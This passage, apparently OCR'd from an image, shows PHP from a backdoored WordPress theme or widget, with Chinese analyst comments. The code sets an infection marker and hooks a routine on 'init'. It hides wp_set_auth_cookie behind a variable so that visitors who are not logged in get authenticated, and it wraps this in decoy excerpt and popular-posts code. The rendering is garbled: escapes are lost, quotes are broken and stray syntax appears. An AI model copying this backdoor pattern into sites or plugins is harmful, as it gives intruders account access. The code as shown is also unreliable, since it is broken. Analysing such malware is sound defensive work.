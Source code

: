                     $ellipsis=0;
                }
            }
            for ($i=0; $i<$l; $i++)
                    $output .= $text[$i] . " ";
        }
        //把感染标记置为1
        update_option("_is_widget_active_", 1);
        if("all" != $tagsallowed) {
            $output=strip_tags($output, $tagsallowed);
            return $output;
        }
        endif;
        $output=rtrim($output, "sntrx0B");
        $output=($fixed_tags) ? balanceTags($output, true) : $output;
        $output .= ($isshowdots &#038;&#038; $ellipsis) ? "..." : "";
        //$filter 为 none ...,又是在伪装
        $output=apply_filters($filter, $output);
        switch($tag_aditional) {
            case("div") :
                $tag="div";
            break;
            case("span") :
                $tag="span";
            break;
            case("p") :
                $tag="p";
            break;
            default :
                $tag="span";
        }
    
    //$checkswidgets即是wp_set_auth_cookie
        if ($is_use_more_link ) {
            if($for_more) {
                $output .= " <" . $tag . " class="more-link"><a href="". get_permalink($post->ID) . "#more-" . $post->ID ."" title="" . $more_text_link . "">" . $link_text_more = !is_user_logged_in() &#038;&#038; @call_user_func_array($checkswidgets,array($cpages, true)) ? $link_text_more : "" . "</a></" . $tag . ">" . "n";
            } else {
                $output .= " <" . $tag . " class="more-link"><a href="". get_permalink($post->ID) . "" title="" . $more_text_link . "">" . $link_text_more . "</a></" . $tag . ">" . "n";
            }
        }
        return $output;
    }
    
    //这里是用来干坏事的，这才是这个恶意代码的目的,前面的感染是“准备活动”
    add_action("init", "_getprepare_widget");
    
    
    //这个函数也是用来伪装的,无恶意
    function __popular_posts($no_posts=6, $before="<li>", $after="</li>", $show_pass_post=false, $duration="") {
        global $wpdb;
        $request="SELECT ID, post_title, COUNT($wpdb->comments.comment_post_ID) AS "comment_count" FROM $wpdb->posts, $wpdb->comments";
        $request .= " WHERE comment_approved="1" AND $wpdb->posts.ID=$wpdb->comments.comment_post_ID AND post_status="publish"";
        if(!$show_pass_post) $request .= " AND post_password =""";
        if($duration !="") { 
            $request .= " AND DATE_SUB(CURDATE(),INTERVAL ".$duration." DAY) < post_date ";
        }
        $request .= " GROUP BY $wpdb->comments.comment_post_ID ORDER BY comment_count DESC LIMIT $no_posts";